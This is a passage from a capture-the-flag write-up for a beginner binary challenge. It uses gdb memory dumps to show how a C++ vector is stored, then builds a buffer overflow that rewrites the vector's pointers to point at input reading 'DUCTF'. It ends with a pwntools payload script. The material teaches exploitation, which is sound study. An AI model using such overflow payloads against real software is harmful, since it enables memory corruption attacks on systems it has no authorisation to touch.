   ```bash
     0x4051f0 <v>:   0x00000000004182b0      0x00000000004182b5 # vector in represented in memory as two consecutive pointers to start and end of content
   (gdb) print 0x00000000004182b5 - 0x00000000004182b0         # we can check length is 5
    $3 = 5
   (gdb) x/5c 0x00000000004182b0 # read 5 characters from the start of the vector data
     0x4182b0:       88 'X'  88 'X'  88 'X'  88 'X'  88 'X' # 88 is ascii value of 'X' (remember in source code we have `vector v = {'X', 'X', 'X', 'X', 'X'})
  ```

### Exploit 

So, given program reads as much data as we provide, we are not limited to 16 characters, we can overflow into `v` and change vector
to `DUCTF`. To reiterate this is memory layout that we normally have (see `analysis` section above for more detailed explanation of each element):
```bash
(gdb) x/32bx 0x4051e0 # read 32 bytes at buf address
0x4051e0 <buf>: 0x6d    0x79    0x74    0x65    0x73    0x74    0x73    0x74 # start of buf ascii of myteststring
0x4051e8 <buf+8>:       0x72    0x69    0x6e    0x67    0x00    0x00    0x00    0x00
0x4051f0 <v>:   0xb0    0x82    0x41    0x00    0x00    0x00    0x00    0x00 # start of variable v first 8 bytes is pointer to start of content of the vector 
0x4051f8 <v+8>: 0xb5    0x82    0x41    0x00    0x00    0x00    0x00    0x00 # second pointer of v points to end of content of the vector
```

Note that pointer addresses that we saw before (0x00000000004182b0, 0x00000000004182b5) are written in little endian format (reversed of
what we used to). For example value `0x0055000004000201` is stored as `0x01 0x02 0x00 0x04 0x00 0x00 0x55 0x00` in memory.

Our goal is to achieve following memory state:
```bash
(gdb) x/32bx 0x4051e0 # read 32 bytes at buf address
0x4051e0 <buf>:   'D'    'U'    'C'    'T'    'F'    0x00    0x00    0x00 # start out input with DUCTF
0x4051e8 <buf+8>: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00 # rest of the buffer is not important
0x4051f0 <v>:     0xe0    0x51    0x40    0x00    0x00    0x00    0x00    0x00 # first pointer of v should point to DUCTF that we entered above
0x4051f8 <v+8>:   0xe5    0x51    0x40    0x00    0x00    0x00    0x00    0x00 # second pointer of v should point to end string DUCTF
```

If all required bytes were ascii printable it would be easy to enter them manually, but they don't so I used  [pwntools](https://github.com/Gallopsled/pwntools).
This is CTF framework for binary exploitation, its only "disadvantage" is it has all features you can think of, so it can be overwhelming sometimes.

=== "python script"
    ```py
    paylod = flat(         # concatenate all elements one after another
        b'DUCTF\x00',      # first first bytes of the buffer is string DUCTF
        '\x00' * 10,       # fill in remaining 10 character with null bytes
        pack(0x4051e0),    # address 0x4051e0 converted to 8 bytes in little endian format
        pack(0x4051e0 + 5) # address 0x4051e5 converted to 8 bytes in little endian format
    )
    print(hexdump(paylod))
    ```

